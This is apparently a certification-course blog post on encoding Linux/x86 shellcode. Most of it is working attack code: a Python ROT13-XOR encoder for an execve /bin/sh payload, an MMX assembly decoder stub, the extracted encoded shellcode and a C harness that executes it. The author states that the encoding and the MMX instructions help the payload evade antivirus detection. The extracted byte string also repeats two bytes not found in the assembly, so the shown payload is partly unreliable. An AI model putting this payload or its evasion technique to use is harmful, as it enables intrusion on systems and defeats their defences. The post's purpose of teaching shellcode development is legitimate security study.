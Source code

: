 ```yaml
---
layout: post
title: ROT13_XOR_ENCODER_MMX_DECODER_SHELLCODE – LINUX/X86
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 4
* Github: [Kartik Durg](https://github.com/kartikdurg)

___

In this post I will be using one of my custom encoding schema “ROT13-XOR-Encoder” to encode execve-stack shellcode and also a decoder stub for the same using MMX instruction for shellcode execution.

REFERENCES:

* [Intel architecture manual Vol.1](https://www.intel.com/content/www/us/en/architecture-and-technology/64-ia-32-architectures-software-developer-vol-1-manual.html)
* [The MMX instruction SET](http://www.plantation-productions.com/Webster/www.artofasm.com/Linux/HTML/TheMMXInstructionSet.html)

#### WHY ENCODING FOR SHELLCODE?

During exploitation, our custom shellcode can contain bad characters or null-bytes due to which exploitation fails on the target application. In such cases, an encoding schema can be used to eliminate bad characters or null-bytes present in our shellcode.
Sometimes, encoding will also trick AV’s (Anti-Virus) into believing that your shellcode is not malicious.

In this post we will be encoding the below execve-stack shellcode:

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

___

### GENERATING AN ENCODED SHELLCODE:

The python script below represents “ROT13-XOR-Encoder” schema:

```
#!/usr/bin/python

# ROT13 - XOR Encoder

#original execve-stack
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

rot = 13

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
#ROT-13
shell_rot = (x + rot)%256

# XOR Encoding 
xor_rot = shell_rot^0xAA
encoded += '\\x'
encoded += '%02x' %xor_rot

encoded2 += '0x'
encoded2 += '%02x,' %xor_rot

print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

As noticed in the above python script, every byte in shellcode is first incremented by 13 and then we XOR that incremented value with 0xAA to get our final encoded shellcode.

Output:

![](/media/4-encode-1.jpg)

___

### DECODING THE ENCODED SHELLCODE:

To execute the encoded shellcode, a decoder stub was developed in assembly as below using MMX instruction. The advantage of using instructions like MMX,FPU,SSE and SSE2 is that, it has lesser detection rates by AV.

Lets jump into our decoder stub:

```
global _start

section .text
_start:

jmp short call_decoder

decoder1:
pop edi                        ;"edi" now points to "xor_value"
lea esi, [edi +16]             ;"esi" now points to "Shellcode"
xor ecx, ecx
mov cl, 4                      ;Size of our shellcode is 25|"qword" operates 8bytes ata time hence 4*8=32|"loop" 4 times

XOR_decode:
movq mm0, qword [edi]          ;move 8bytes of "xor_value" to mm0
movq mm1, qword [esi]          ;move 8bytes of "Shellcode" to mm1
pxor mm0, mm1                  ;Perform XOR operation
movq qword [esi], mm0          ;overwrite the "Shellcode" with previous results
add esi, 0x8                   ;now "esi" points to next 8bytes of "Shellcode"
loop XOR_decode                ;loop 4 times

decoder2:
lea edi, [edi +8]              ;"edi" now points to "rot_value"
lea esi, [edi +8]              ;"esi" now points to "Shellcode"|"Shellcode" contains previous XOR'ed results
xor ecx, ecx
mov cl, 4                      ;"loop" 4 times

ROT_decode:
movq mm2, qword [edi]          ;move 8bytes of "rot_value" to mm2
movq mm3, qword [esi]          ;move 8bytes of "Shellcode" to mm3
psubb mm3, mm2                 ;Subtract 13 from "Shellcode"
movq qword [esi], mm3          ;overwrite the "Shellcode" with previous results
add esi, 0x8                   ;now "esi" points to next 8bytes of "Shellcode"
loop ROT_decode                ;"loop" 4 times

jmp short Shellcode            ;Execute decoded shellcode

call_decoder:

call decoder1
xor_value: db 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa
rot_value: db 13, 13, 13, 13, 13, 13, 13, 13
;Paste your Encoded shellcode below
Shellcode: db 0x94,0x67,0xf7,0xdf,0x96,0x96,0x2a,0xdf,0xdf,0x96,0xc5,0xdc,0xd1,0x3c,0x5a,0xf7,0x3c,0x45,0xca,0x3c,0x44,0x17,0xb2,0x70,0x27
```

To decode the encoded payload we first XOR it and then subtract 13(0xd) from XOR’ed results to get final shellcode.

___

### COMPILING THE ASSEMBLY AND EXTRACTING THE SHELLCODE:

![](/media/4-encode-2.jpg)

```
objdump -d ./mmx-rot-xor-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
Output:
"\xeb\x36\x5f\x8d\x77\x10\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\x8d\x7f\x08\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x17\x0f\x6f\x1e\x0f\xf8\xda\x0f\x7f\x1e\x83\xc6\x08\xe2\xef\xeb\x15\xe8\xc5\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x94\x67\x94\x67\xf7\xdf\x96\x96\x2a\xdf\xdf\x96\xc5\xdc\xd1\x3c\x5a\xf7\x3c\x45\xca\x3c\x44\x17\xb2\x70\x27"
```

### EXECUTING THE FINAL SHELLCODE:

```
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x36\x5f\x8d\x77\x10\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\x8d\x7f\x08\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x17\x0f\x6f\x1e\x0f\xf8\xda\x0f\x7f\x1e\x83\xc6\x08\xe2\xef\xeb\x15\xe8\xc5\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x94\x67\x94\x67\xf7\xdf\x96\x96\x2a\xdf\xdf\x96\xc5\xdc\xd1\x3c\x5a\xf7\x3c\x45\xca\x3c\x44\x17\xb2\x70\x27";

main()
{
printf("Shellcode Length: %d\n", strlen(shellcode));

int (*ret)() = (int(*)())shellcode;

ret();
}
```

Output:

![](/media/4-encode-3.jpg)

___

Exploit-DB: [https://www.exploit-db.com/exploits/45538](https://www.exploit-db.com/exploits/45538)

Link to shellcode.c: [shellcode.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x4/shellcode.c)

Link to shellcode.asm: [mmx-rot-xor-decoder.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x4/mmx-rot-xor-decoder.asm)

Thank you for reading 🙂

– Kartik Durg